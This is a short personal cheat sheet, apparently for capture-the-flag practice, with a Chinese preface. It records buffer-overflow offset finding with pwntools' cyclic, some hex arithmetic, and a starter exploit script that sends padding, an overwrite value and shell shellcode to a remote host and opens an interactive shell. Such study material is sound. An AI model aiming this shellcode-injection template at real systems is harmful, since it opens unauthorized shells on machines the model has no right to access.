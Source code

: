 ### Record some expolit of  payload.
因常常忘記...於是紀錄一下各種解題方法。

試bof字串：

```
>>> cyclic(52)

'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa'

>>> hex(0x21DD09EC - 0x10101010)

'0x11ccf9dc'

echo $((0x48-0x14))

52
```

#### pwntools起手式

```
from pwn import *

<font color="red"># 0xcafebabe<font>

r = remote('ip', 'port')

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()
```
